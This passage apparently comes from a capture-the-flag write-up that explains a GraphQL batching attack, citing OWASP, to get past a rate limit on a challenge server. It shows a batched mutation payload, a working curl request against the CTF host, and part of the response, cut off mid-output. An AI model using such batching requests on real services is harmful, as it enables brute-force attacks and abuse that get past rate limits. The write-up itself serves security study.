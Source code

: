 While delving into the topic of bypassing rate limits, I came across an article from [OWASP](https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html#batching-attacks) that explains how to bypass the `rate limit` by performing "Batching Attacks."

> GraphQL supports batching requests, also known as query batching. This lets callers batch multiple queries or batch requests for multiple object instances in a single network call, which allows for what is called a batching attack. This is a form of brute force attack, specific to GraphQL, that usually allows for faster and less detectable exploits. Here is the most common way to do query batching:

```graphql
[
  {
    query: < query 0 >,
    variables: < variables for query 0 >,
  },
  {
    query: < query 1 >,
    variables: < variables for query 1 >,
  },
  {
    query: < query n >
    variables: < variables for query n >,
  }
]
```

Applying this to our case, we can make a request like this:

```graphql
[
  {
    query: "mutation { increaseClickSchool(schoolName: \"Flag CyberSecurity School\"){schoolId, nbClick} }"
  },
  {
    query: "mutation { increaseClickSchool(schoolName: \"Flag CyberSecurity School\"){schoolId, nbClick} }"
  },
  {
    query: "mutation { increaseClickSchool(schoolName: \"Flag CyberSecurity School\"){schoolId, nbClick} }"
  },
  ...
]
```

By sending the following cURL request, we can increase the score by 3 points in a single request:

```bash
curl 'http://dyn-03.heroctf.fr:10048/graphql' \
  -H 'Content-Type: application/json' \
  --data-raw '[ { "query": "mutation { increaseClickSchool(schoolName: \"Flag CyberSecurity School\"){schoolId, nbClick} }" },{ "query": "mutation { increaseClickSchool(schoolName: \"Flag CyberSecurity School\"){schoolId, nbClick} }" },{ "query": "mutation { increaseClickSchool(schoolName: \"Flag CyberSecurity School\"){schoolId, nbClick} }" }]'

[
    {
        "data": {
            "increaseClickSchool": {
                "schoolId": 3,
                "nbClick": 1
            }
        }
    },
    {
```